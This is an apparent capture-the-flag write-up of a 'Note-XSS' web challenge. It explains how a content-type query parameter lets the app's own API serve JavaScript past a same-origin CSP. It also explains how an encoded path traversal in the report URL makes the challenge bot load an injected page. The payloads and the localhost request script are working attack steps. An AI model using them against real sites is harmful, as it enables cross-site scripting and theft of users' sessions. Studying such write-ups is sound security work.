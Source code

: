 ```yaml
---
created: 2024-12-07T14:26
updated: 2024-12-08T13:17
solves: 54
points: 191
---
```


Note-XSS challenge, with CSP `default-src: self` and restricted report url.
## probe

- can access raw body via `/api/posts/[id]/body`
- We can change content type via `/path?contentType=text/javascript`

```ts
app.get(
    "*",
    handleAsync(async (req, res, next) => {
        const { error, data: query } = await assetsQuerySchema.safeParseAsync(req.query)
        if (!error) {
            res.header("content-type", query.contentType)
        }
...
```

It appears that `res.header` is set for every single path, as long as the query variable is set.
## csp

Using Google's CSP detector, we can see that the vulnerable CSP seems to be `default-src: self`.

How do we exploit this?

We can exploit the api endpoints to host JS files for us.

```js [payload A]
console.log("external script")
```

```html [payload B]
<script src="/api/posts/1/body?contentType=text/javascript"></script>
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733640901/2024/12/6fbd95c74bf12b3877d62659ab914a7b.png)

## xss

However to make the bot access body via `/api` directly isn't easy, I got stuck here and my teammate @T!T4N solved it.

The solution is to inject the report endpoint's url param.

```python
import requests

r = requests.post("http://localhost:3300/posts/23%2e%2e%2f%2e%2e%2f%2e%2e%2fapi%2fposts%2f21%3fcontentType=text%2fhtml/report")
print(r.text)

# http://localhost:3300/api/posts/21?contentType=text/html
```

## solve script
